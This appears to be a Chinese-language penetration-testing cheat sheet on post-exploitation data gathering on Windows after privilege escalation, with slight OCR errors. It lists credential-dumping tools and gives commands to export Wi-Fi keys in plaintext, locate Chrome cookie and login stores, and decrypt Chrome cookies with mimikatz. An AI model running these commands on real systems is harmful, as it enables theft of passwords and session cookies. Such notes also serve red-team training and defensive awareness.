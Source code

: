 这里是在拿下最高权限之后的信息收集。  
- 主要收集内容  
  
> 系统管理员密码(hash->明文)其他用户的session，3389，ipc连接记录以及各用户回收站信息收集浏览器密码和cookies的获取windows无线密码获取数据库密码获取host文件，dns缓存信息杀毒软件，补丁，进程，网络代理信息共享文件夹，web服务器配置文件等计划任务，账号密码策略，锁定策略  
  
### windows杂七杂八的信息收集  
- 工具：mimikatz、wce、getpass、quarkspwdump、reg-sam、pwdump7等  
  
- cmdkey用于保存用户名和密码的凭证。  
  
- 
```
cmdkey /list
```

  
查看凭据位置  
  
- netpass.exe获取密码  
  
- 回收站信息获取  
  
- 进入回收站文件夹
```
cd C:$RECYCLE.BIN
```

  
（该文件夹为隐藏文件夹，dir /ah查看内容，a指定属性h表示隐藏)  
  
- 获取无线密码  
  
- 
```
netsh wlan export profile interface=WLAN key=clear folder=C:\
```

  
- 获取浏览器的cookie和存储密码(chrome)  
  
- 
```
%localappdata%\google\chrome\USERDATA\default\cookies%localappdata%\googlelchrome\USERDATA\default\Login
```

  
- Datachrome的用户信息保存在本地文件为sqlite数据库格式  
  
- 使用mimikatz读取内容:  

```
mimikatz.exe privilege:debug log &#34;dpapi:chrome /in:%localappdata%google\chrome\USERDATA\default\cookies /unprotect&#34;
```

  
  
### msf下的windows信息收集  